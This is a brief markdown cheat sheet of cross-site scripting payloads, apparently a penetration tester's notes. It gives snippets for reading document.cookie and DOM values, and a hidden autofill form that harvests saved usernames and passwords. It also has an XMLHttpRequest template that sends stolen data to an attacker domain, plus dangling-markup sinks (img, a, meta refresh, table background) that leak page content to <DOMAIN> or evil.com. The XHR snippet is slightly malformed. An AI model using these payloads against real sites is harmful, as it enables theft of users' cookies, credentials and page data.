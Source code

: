 # XSS
## Document Methods
**Always use setTimeout to 5000 before retrieving document data**
```javascript
document.getElementById('<ID>')
```

```javascript
var value;
var inputs = document.getElementsByTagName('<TAG>')`
var value = <LOGIC>
```

## Cookies (Non Http-Only)
`document.cookie`

## Credentials
**Only works for insecure browser keychains**
```html
<form id='creds' autocomplete='on'>
<input name="username" id="user" type="username" />
<input name="password" id="pw" type="password" />
</form>

<script>
var username = document.getElementById('user').value;
var pw = document.getElementById('pw').value;
</script>
```

## Retrieval
**Does not work if SOP is enabled**
```javascript
var req = new XMLHttpRequest();
req.open('<DOMAIN>', true);
body = String(<INFO>);
req.send(body);
```

## Dangling Markup
**Inject ' " \` /> or other closers to break final HTML**
**Source [here](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)**
### Sinks
**Tags all behave differently, for some reason**
- `<CLOSER> <img src="<DOMAIN>/?log=`
- `<CLOSER> <a href="<DOMAIN>/?log=`
- `<CLOSER> <meta http-equiv="refresh" content='0; url=http://<DOMAIN>/?text=`
- `<CLOSER<meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=`
- Bypasses new line checks `<CLOSER> <table background='<DOMAIN>?stuff=`